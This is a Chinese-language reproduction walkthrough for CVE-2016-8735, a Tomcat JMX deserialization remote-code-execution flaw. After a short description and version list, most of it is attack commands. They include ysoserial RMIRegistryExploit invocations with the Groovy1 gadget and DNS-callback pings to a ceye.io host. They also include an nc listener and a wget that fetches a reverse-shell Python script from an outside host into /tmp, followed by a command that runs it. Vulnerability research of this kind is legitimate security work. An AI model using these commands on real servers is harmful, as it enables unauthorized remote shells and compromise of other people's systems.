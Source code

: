 # （CVE-2016-8735）Tomcat 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Tomcat/CVE-2016-8735.html](http://book.iwonder.run/0day/Tomcat/CVE-2016-8735.html)

## 一、漏洞简介

该漏洞与之前 Oracle 发布的 mxRemoteLifecycleListener 反序列化漏洞（CVE-2016-3427）相关，是由于使用了 JmxRemoteLifecycleListener 的监听功能所导致。而在 Oracle 官方发布修复后，Tomcat 未能及时修复更新而导致的远程代码执行。 该漏洞所造成的最根本原因是 Tomcat 在配置 JMX 做监控时使用了 JmxRemoteLifecycleListener 的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到 9.0.0.M11 ApacheTomcat 8.5.0 到 8.5.6 ApacheTomcat 8.0.0.RC1 到 8.0.38 ApacheTomcat 7.0.0 到 7.0.72 ApacheTomcat 6.0.0 到 6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启 JmxRemoteLifecycleListener 监听的 10001 和 10002 端口，来实现远程代码执行。

### 构造命令

Win ping 一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用 Ceye 回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```

![image](img/36080687778a96c884dbb7c10dcf540b.png)

DNS 回显能返回数据，说明执行了 Ping 命令，也就是说漏洞存在

![image](img/1e1d680ccaa37654ede5e43392d721c1.png)

直接 NC 监听服务：

```
nc -l -vv 12555 
```

![image](img/20bcf0c0f18c562526a6cf596926f9e1.png)

然后构造命令：下载我们的反弹脚本:(之前用 bash 命令反弹没有成功所以使用 Python 脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在 wget 的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```

![image](img/956bc702eb69523a6dc300f245112eb4.png)

成功反弹：

![image](img/f0aad14f2915ac65ee4d310ba36c6e55.png)

![image](img/d76741df8274dfdcd655e33c5e0e12f4.png)

